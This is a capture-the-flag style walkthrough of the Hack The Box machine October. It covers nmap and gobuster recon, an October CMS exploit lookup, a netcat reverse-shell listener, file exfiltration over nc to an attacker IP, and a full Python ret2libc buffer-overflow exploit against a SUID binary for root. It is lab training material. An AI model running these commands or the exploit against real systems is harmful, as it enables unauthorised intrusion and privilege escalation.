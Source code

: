# October Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA october 10.10.10.16 -T4``

![image](https://user-images.githubusercontent.com/123066149/228842989-9c33449e-596b-4a3e-89db-d4963ed5ca07.png)

``sleep 200; nmap -p- -sV -T4 -oA fulloctober 10.10.10.16``

![image](https://user-images.githubusercontent.com/123066149/228843209-b6fbd08e-23f9-456e-b4f0-95e8ead1bd12.png)

``gobuster dir -u http://10.10.10.16/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt``

![image](https://user-images.githubusercontent.com/123066149/228845053-f2490276-2876-46b8-8247-a570d05fd902.png)

# ${{\color{purple}Initial Foothold}}\ $

![image](https://user-images.githubusercontent.com/123066149/228845266-0904b020-a36c-4e3c-87ee-0fc0bade3191.png)

![image](https://user-images.githubusercontent.com/123066149/228845324-aaa12122-0842-4bde-934c-be5c4f271f22.png)

``searchsploit october CMS``

![image](https://user-images.githubusercontent.com/123066149/228845514-7d1c136d-d33f-498b-88f5-b899f22b2e42.png)

``searchsploit -x php/remote/47376.rb | grep URL``

![image](https://user-images.githubusercontent.com/123066149/228846440-2c797231-441d-41dd-9eff-33fbd0c232bb.png)

![image](https://user-images.githubusercontent.com/123066149/228846964-01f906b4-012b-4b15-93f2-163d87fbbca8.png)

![image](https://user-images.githubusercontent.com/123066149/228847236-78e4ba05-4dae-4a31-a2ff-5221fb294127.png)

# ${{\color{purple}Exploitation}}\ $

![image](https://user-images.githubusercontent.com/123066149/228847588-dec9ee25-1d81-47f3-8850-23dcf10552ec.png)

``nc -nlvp 1234``

![image](https://user-images.githubusercontent.com/123066149/228847746-c2c5a1ef-1756-4ded-a5b2-c4cd953cd5c1.png)

# ${{\color{purple}Privilege Escalation}}\ $

``find / -perm -4000 2>/dev/null``

![image](https://user-images.githubusercontent.com/123066149/228848043-e31e5e3a-e793-4f11-8e72-3cd151bb67ff.png)

### Transfert file from client to kali

``nc -w 5 10.10.14.3 999 < /usr/local/bin/ovrflw``

``nc -l -p 999 > ovrfl``

![image](https://user-images.githubusercontent.com/123066149/228850260-f2eabad3-353c-4757-83b9-52b18d1d9a92.png)

### Check integrity:

``md5sum ovflw ``

![image](https://user-images.githubusercontent.com/123066149/228850724-35bd36f6-0ddd-4f8c-8bb7-30472dc50f50.png)

### Check kernel version:

``uname -a ``

![image](https://user-images.githubusercontent.com/123066149/228850943-6b897819-d22e-4c2c-a667-90a9f193c75a.png)

``cat /etc/lsb-release``

![image](https://user-images.githubusercontent.com/123066149/228850983-e5219221-7604-4f83-ac42-eeb87c148b9a.png)

![image](https://user-images.githubusercontent.com/123066149/228851291-86389ba2-23d9-4982-93f9-9bc4544c026f.png)

``/usr/local/bin/ovrflw``

![image](https://user-images.githubusercontent.com/123066149/228851397-4db84aab-b7d8-438c-b94f-75d7ab251710.png)

``gdb ovrfl``

``disas main``

![image](https://user-images.githubusercontent.com/123066149/228851968-26270622-8120-446d-846e-23d5ad02dbd0.png)

``msf-pattern_create -l 300``

![image](https://user-images.githubusercontent.com/123066149/228852426-077a99ae-7fac-4fad-956c-e9aced1953c4.png)

![image](https://user-images.githubusercontent.com/123066149/228852654-a2249290-a840-4a6f-b924-265731a8b713.png)

![image](https://user-images.githubusercontent.com/123066149/228948787-fdb9da19-c7d3-4e21-9a6a-3fce64a43c4e.png)

![image](https://user-images.githubusercontent.com/123066149/228948867-48228b79-0142-4535-90d6-2d3629a51438.png)

### Get system address

``p system``

### Check ASLR

``ldd /usr/local/bin/ovrflw | grep libc`` 


![image](https://user-images.githubusercontent.com/123066149/228949233-724b39da-cd64-49a7-be5b-31443bf8c213.png)


### Find system address :

``readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system``

![image](https://user-images.githubusercontent.com/123066149/228949395-2beecb7d-3929-44ec-855e-604195002920.png)

### Find exit address :

``readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit``

![image](https://user-images.githubusercontent.com/123066149/228949547-9236cd8b-52e2-43db-847d-37d20999e552.png)

### Find /bin/sh address :

``strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh``

![image](https://user-images.githubusercontent.com/123066149/228949734-9e4e3f38-e4fb-4eb7-a9e4-cb9c3b3a7b94.png)

### The exploit :

![image](https://user-images.githubusercontent.com/123066149/228950185-e462d734-0323-4e7c-ba7a-6949d30c7bd1.png)


#!/usr/bin/python3

from struct import pack
from subprocess import call

offset = 112
junk = b"A"*offset

#ret2libc -> system_addr + exit_addr + bin_sh_addr

base_libc_addr = 0xb7602000

system_addr_off = 0x00040310
exit_addr_off = 0x00033260
bin_sh_addr_off = 0x00162bac

system_addr = pack("<L", base_libc_addr + system_addr_off)
exit_addr = pack("<L",base_libc_addr + exit_addr_off)
bin_sh_addr = pack("<L", base_libc_addr + bin_sh_addr_off)

payload = junk + system_addr + exit_addr + bin_sh_addr

while True:
        ret = call(["/usr/local/bin/ovrflw", payload])

![image](https://user-images.githubusercontent.com/123066149/228951637-17575ac8-fadd-452c-85f2-dba0fdf82327.png)

        
# ${{\color{purple}Point of Improvement}}\ $

* Make a very good list with ``gobuster``

